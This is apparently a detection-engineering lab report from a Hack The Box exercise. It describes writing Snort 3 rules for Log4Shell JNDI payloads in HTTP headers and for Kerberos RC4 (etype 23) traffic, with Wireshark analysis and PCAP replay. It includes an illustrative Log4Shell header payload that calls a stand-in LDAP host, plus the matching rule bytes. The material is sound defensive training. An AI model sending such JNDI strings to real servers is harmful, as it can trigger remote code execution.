




# 02 - Snort Intrusion Detection & Attack Signatures

## Executive Summary

This report combines two hands-on Snort 3 detection-engineering investigations. The first exercise examines attempted **Log4Shell (CVE-2021-44228)** exploitation embedded in HTTP request headers. An inactive signature was enabled, and the `http_header;` sticky buffer was added before its `content` test, allowing Snort to match JNDI-style payload strings in the HTTP headers. The second exercise examines **Kerberos RC4 encryption-type indicators** in `wannamine.pcap`. Wireshark inspection identified the byte `0x17` (decimal `23`, RC4-HMAC) and supported replacement of the `XX` placeholder in an ASN.1-oriented Snort rule.

Both investigations were validated against supplied offline captures. The Log4Shell signature successfully matched suspicious HTTP header content using the **http_header** inspection buffer, while the Kerberos signature generated an alert after incorporating the RC4-HMAC hexadecimal byte **17**.

These signatures demonstrate detection of matching traffic patterns; neither result alone proves successful Log4Shell exploitation, credential theft, or a complete Overpass-the-Hash attack chain.

## Investigation Objectives

1. Investigate protocol-aware HTTP header inspection techniques for detecting Log4Shell-related payloads using Snort 3.
2. Enable and validate the Log4Shell rule with SID `10000098` against `log4shell.pcap`.
3. Inspect `wannamine.pcap` for Kerberos encryption-type bytes and correlate the raw representation with Wireshark's decoded protocol fields.
4. Refine Kerberos RC4 detection signature SID 9999999 using the observed hexadecimal encryption-type value and validate the resulting Snort alert.
5. Explain the scope, limitations, and practical tuning considerations of both detections.

## Background

**Snort 3** is a network intrusion detection and prevention engine that evaluates packets and protocol-aware buffers against configured signatures. A rule typically contains a header describing the traffic and a body containing a message (`msg`), detection options (`content`), and an identifier (`sid`). In this lab, the rules are stored in `/home/htb-student/local.rules` and evaluated against saved PCAP files.

**Log4Shell** is a vulnerability in affected Apache Log4j 2 configurations that can be triggered when attacker-controlled strings containing JNDI lookups are processed by vulnerable logging logic. An HTTP `User-Agent` or `Authorization` header can carry such a string. The Snort 3 `http_header` sticky buffer narrows subsequent content matching to HTTP header data; it is broader than matching the User-Agent field alone.

**Kerberos** is an authentication protocol used in Active Directory environments. Its messages can contain ASN.1-encoded encryption-type fields. The legacy RC4-HMAC encryption type is **23 decimal**, represented by **`17` hexadecimal** in a one-byte encoding. An RC4 indicator is relevant to investigations of downgrade behavior and Overpass-the-Hash, but does not by itself demonstrate an attacker forced a downgrade.

## MITRE ATT&CK Mapping

| Investigation | Technique | Evidence and limitation |
| --- | --- | --- |
| Log4Shell payload in HTTP headers | **T1190 — Exploit Public-Facing Application** (potential) | A JNDI-style payload was detected in inbound HTTP traffic; successful exploitation is not established. |
| JNDI/LDAP lookup attempt | **T1071.001 — Application Layer Protocol: Web Protocols** (contextual) | HTTP transports the suspicious string; no outbound callback is established by the shown alert alone. |
| Overpass-the-Hash scenario | **T1550.002 — Use Alternate Authentication Material: Pass the Hash** (scenario context) | The training exercise describes an Overpass-the-Hash scenario; the packet signature itself matches an RC4-related encoding. |
| Kerberos RC4-related traffic | **T1558 — Steal or Forge Kerberos Tickets** (investigative context only) | Kerberos traffic merits follow-up; the RC4 byte alone does not establish ticket theft or forgery. |

## Data Sources & Tools

| Source / tool | Role |
| --- | --- |
| `/home/htb-student/pcaps/log4shell.pcap` | Captured HTTP traffic containing suspected Log4Shell payloads |
| `/home/htb-student/pcaps/wannamine.pcap` | Captured traffic used to examine Kerberos encryption type |
| `/home/htb-student/local.rules` | Local Snort detection signatures |
| Snort 3.1.64.0 | Offline signature execution and console alerts |
| `snort.lua` | Snort 3 configuration |
| DAQ / PCAP reader | Supplies recorded packets to Snort |
| Wireshark | Protocol decoding and hexadecimal packet inspection |
| SSH / SCP / GNU nano | Remote access, capture transfer, and rule editing |

## Investigation Scope

All activities occurred within an authorized Hack The Box training environment. The investigation was limited to supplied PCAPs, local rule modifications, Wireshark analysis, and Snort alert validation. The report intentionally omits lab login credentials and ephemeral target addresses. 

---

## Investigation #1 — Snort Rule Development: Log4Shell HTTP Header Detection

### Investigation Objective

Investigate suspicious JNDI lookup patterns embedded in HTTP request headers and refine Snort signature SID **10000098** to detect Log4Shell-related payloads within **log4shell.pcap**. The analysis focuses on selecting the appropriate HTTP inspection buffer and validating the resulting alerts.

### Detection Concept — HTTP Sticky Buffers

An HTTP request consists of a request line, headers, and an optional body. The `User-Agent` and `Authorization` fields belong to the **headers**, not the request body. In Snort 3, `http_header;` selects the HTTP header inspection buffer for subsequent content options. This avoids relying on an undifferentiated raw-payload search and provides a protocol-aware detection context.

A representative request structure is:

```http
GET / HTTP/1.1
Host: example.org
User-Agent: ${jndi:ldap://example.invalid/a}
Accept: */*
```

The domain above is illustrative; it is not a claim about a destination observed in the lab.

### Investigation Artifact #1 — Inspecting and Activating the Rule

The rule file was opened with GNU nano. The Log4Shell rule was initially commented out and therefore inactive. It was uncommented, and `http_header;` was inserted immediately before the relevant `content` option. A separate ICMP test rule was commented out to reduce unrelated output during validation.

```bash
nano /home/htb-student/local.rules
```

**Relevant rule structure (excerpt, not a verbatim reproduction of all rule options):**

```snort
alert http any any -> any any (
    msg:"Log4shell Attempt Detected";
    http_header;
    content:"|24 7b|jndi|3a|ldap|3a 2f 2f|";
    fast_pattern;
    nocase;
    sid:10000098;
    rev:1;
)
```

The `content` bytes above reflect the visible rule fragment (`|24 7b|jndi|3a|ldap|3a 2f 2f|`). This excerpt is formatted for readability; use the actual lab rule file for exact syntax and any additional options.

### Investigation Artifact #2 — Offline Snort Validation

The updated rules were applied to the provided capture:

```bash
sudo snort \
  -c /root/snorty/etc/snort/snort.lua \
  --daq-dir /usr/local/lib/daq \
  -R /home/htb-student/local.rules \
  -r /home/htb-student/pcaps/log4shell.pcap \
  -A cmg
```

| Argument | Purpose |
| --- | --- |
| `-c .../snort.lua` | Load Snort 3 configuration |
| `--daq-dir ...` | Locate data-acquisition modules |
| `-R .../local.rules` | Load the local rule file |
| `-r .../log4shell.pcap` | Replay recorded packets rather than inspect a live interface |
| `-A cmg` | Display console alerts with associated packet details |

The console showed Snort 3.1.64.0 starting, loading its configuration and rules, processing the PCAP, and exiting normally. The user's lab notes report **45,881 packets analyzed and 15 alerts**, although the supplied screenshots show the start and end of execution rather than the full intermediate alert stream.

### Figure 7 - Log4Shell Snort Validation 



### Findings — Log4Shell

The documented alert output identified rule **`[1:10000098:1]`**, labeled **`Log4shell Attempt Detected`**. The notes record suspicious JNDI lookup strings in both `User-Agent` and `Authorization` headers. One example was an inbound HTTP request from `45.137.21.9:38790` to `198.71.247.91:80`, with a `User-Agent` beginning with `${jndi:ldap://...}`.

Because the rule uses `http_header`, it can match relevant strings across the inspected header buffer rather than being restricted to a single named header. This provides broader coverage, but also calls for tuning to avoid false positives and obfuscated-payload misses.

**Analyst interpretation:** The result demonstrates a signature match against suspicious HTTP header content. It does not establish that the receiving server used a vulnerable Log4j version or executed a remote payload.

---

## Investigation #2 — Kerberos RC4 Encryption-Type Detection

### Investigation Objective

Investigate Kerberos encryption-type indicators within **wannamine.pcap** and refine Snort signature SID **9999999**, labeled **Kerberos Ticket Encryption Downgrade to RC4 Detected**. The analysis focuses on correlating ASN.1-encoded byte sequences with Wireshark protocol fields and validating the updated signature against captured network traffic.

### Detection Concept — Kerberos Encryption Types and ASN.1

Kerberos encryption types are identified by numeric values. In this context:

| Decimal etype | Hexadecimal | Algorithm |
| --- | --- | --- |
| `17` | `0x11` | AES128-CTS-HMAC-SHA1-96 |
| `18` | `0x12` | AES256-CTS-HMAC-SHA1-96 |
| **`23`** | **`0x17`** | **RC4-HMAC / ARCFOUR-HMAC-MD5** |

The signature looks for a particular ASN.1/TLV-style byte sequence. In `A0 03 02 01 17`, the last byte is the encoded integer **`0x17`**, equivalent to **23 decimal**. It is the hexadecimal byte `17`—not decimal 17—that belongs in the rule.

### Investigation Artifact #1 — Inspecting the Incomplete Signature

The relevant rule was located in `/home/htb-student/local.rules`, enabled by removing its leading `#`, and the unrelated ICMP test signature was disabled. The rule's SID was visible as `9999999` in the provided screenshot.

```bash
nano /home/htb-student/local.rules
```

**Relevant pattern before correction:**

```snort
content:"|A0 03 02 01 XX|";
```

The existing rule also contained multiple preceding byte-pattern checks and relative matching constraints. Those options are important to the rule's overall specificity and were preserved rather than replaced with a single broad content match.

### Investigation Artifact #2 — Transferring the Capture

To inspect the PCAP with Wireshark on the graphical workstation, the file was copied from the lab target using SCP:

```bash
scp htb-student@<LAB_TARGET_IP>:/home/htb-student/pcaps/wannamine.pcap .
```

The terminal confirmed a completed transfer of the approximately 912 KB capture. The placeholder `<LAB_TARGET_IP>` should be replaced with the current authorized lab address when reproducing the exercise.

### Investigation Artifact #3 — Wireshark Protocol and Hex Inspection

The transferred capture was opened in Wireshark. The initial display showed ARP traffic; a display filter narrowed the view to Kerberos-related packets:

```wireshark
kerberos
```

The packet search tool was then used with **Find by: Hex value** and the sequence:

```text
A0 03 02 01
```
### Figure 8 - Wireshark Kerberos Hex Search 



The analyst inspected matching packets and the decoded Kerberos fields. In the provided evidence, a Kerberos `etype` field was decoded as **`ETYPE-ARCFOUR-HMAC-MD5 (23)`**, while the corresponding raw bytes contained:

```text
A0 03 02 01 17
```

This establishes the mapping **decimal 23 → hex `17`** for the signature's missing byte.

### Figure 9 - Kerberos RC4 Encryption Type 23 



### Investigation Artifact #4 — Correcting and Testing the Rule

The final content option was updated from `XX` to `17`, preserving the surrounding signature conditions:

```snort
content:"|A0 03 02 01 17|";
```
The capture was then replayed through Snort 3:

```bash
sudo snort \
  -c /root/snorty/etc/snort/snort.lua \
  --daq-dir /usr/local/lib/daq \
  -R /home/htb-student/local.rules \
  -r /home/htb-student/pcaps/wannamine.pcap \
  -A cmg
```

The console output included the following alert and flow:

```text
[1:9999999:0] "Kerberos Ticket Encryption Downgrade to RC4 Detected"
{TCP} 192.168.183.101:65135 -> 192.168.183.100:88
```

The destination port `88` is consistent with Kerberos. The displayed raw packet bytes also contained `A0 03 02 01 17`.

### Figure 10 - Kerberos Snort Detection Alert 



### Findings — Kerberos

The PCAP contained a Kerberos field decoded as **RC4-HMAC (etype 23)**. Replacing the placeholder with the corresponding hexadecimal byte `17` allowed the existing Snort signature to match and emit the expected alert. The detection provides an investigative lead for legacy encryption usage and possible downgrade-related behavior.

**Analyst interpretation:** Observing RC4-HMAC and matching an ASN.1 byte sequence is not sufficient, by itself, to prove that an adversary performed Overpass-the-Hash or actively forced encryption downgrade. Correlate with domain-controller authentication events, client identity, ticket-request context, and endpoint telemetry.

---

## Detection Engineering Considerations

| Area | Log4Shell header detection | Kerberos RC4 detection |
| --- | --- | --- |
| Inspection surface | Protocol-decoded HTTP header buffer | Kerberos-associated binary payload / ASN.1 sequence |
| Key match | `http_header;` before `content` | `|A0 03 02 01 17|` |
| Strength | Detects suspicious strings in multiple HTTP headers | Matches the relevant encoded RC4 etype byte in context |
| Limitation | Encoded or obfuscated JNDI expressions may evade literal matching | RC4 can appear in legitimate legacy environments |
| Follow-up | Check server logs, Log4j version, LDAP/DNS egress, and process activity | Review Kerberos events, encryption policy, account activity, and host logs |
| Improvement | Add normalization-aware signatures and layered detection | Add protocol-aware context, directionality, and baseline comparisons |

## Key Findings

1. **Log4Shell:** Adding the Snort 3 sticky buffer `http_header;` before the content match and enabling SID `10000098` allowed detection of JNDI-like strings in HTTP request headers.
2. **Header coverage:** The documented examples include both `User-Agent` and `Authorization`, showing why a general HTTP-header buffer is useful for this exercise.
3. **Kerberos:** Wireshark identified RC4-HMAC as **etype 23**, encoded as hexadecimal **`17`** in the relevant one-byte field.
4. **Rule correction:** Replacing `XX` with `17` in the final `content` option produced the expected Snort alert for SID `9999999` against `wannamine.pcap`.
5. **Scope:** Both findings are confirmed rule matches in supplied training traffic, not standalone proof of successful exploitation or adversary attribution.

## Conclusion

These investigations demonstrate two complementary Snort 3 signature-development skills: **protocol-aware HTTP buffer selection** and **precise binary content matching**. The Log4Shell exercise emphasizes placing detection logic in the correct application-layer context, while the Kerberos exercise emphasizes interpreting decoded protocol fields and translating their values into raw hexadecimal bytes. In both cases, the investigation followed the same defensible workflow: inspect the existing signature, identify the relevant traffic evidence, make a targeted rule change, replay the PCAP, and verify the resulting alert.

